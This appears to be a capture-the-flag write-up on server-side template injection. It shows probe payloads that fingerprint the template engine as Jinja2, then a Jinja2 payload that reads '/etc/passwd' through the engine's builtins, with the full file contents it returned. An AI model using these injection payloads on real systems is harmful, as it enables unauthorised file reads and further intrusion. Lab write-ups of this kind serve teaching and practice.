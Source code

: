 We go to HackTricks and grab all the different operations to find which template engine is being used.
```bash
## REQUEST
${7*7}
{{7*7}}
{{7*'7'}}
<%= 7*7 %>
#{7*7}

## RESPONSE
${7*7}
49
7777777
<%= 7*7 %>
#{7*7}
```

We see that both `{{7*7}}` and `{{7*'7'}}` are calculated/modified. Looking on the "SSTI chart" we can deduce it's either the template engine **Jinja2**, **Twig** or **Unknown**.

![[Pasted image 20220516210055.png]]
**Twig**: {{7*'7'}} = 49
**Jinja2**: {{7*'7'}} = 7777777

We've successfully detected the template engine, **Jinja2**.

-----------
### Step 2
Playing around with Jinja2 terms I tried to go with:
`{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}`

After trying several fonts in different sizes, I finally got it to work with `Hack Regular` size 35. 

```bash
## REPLY
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
```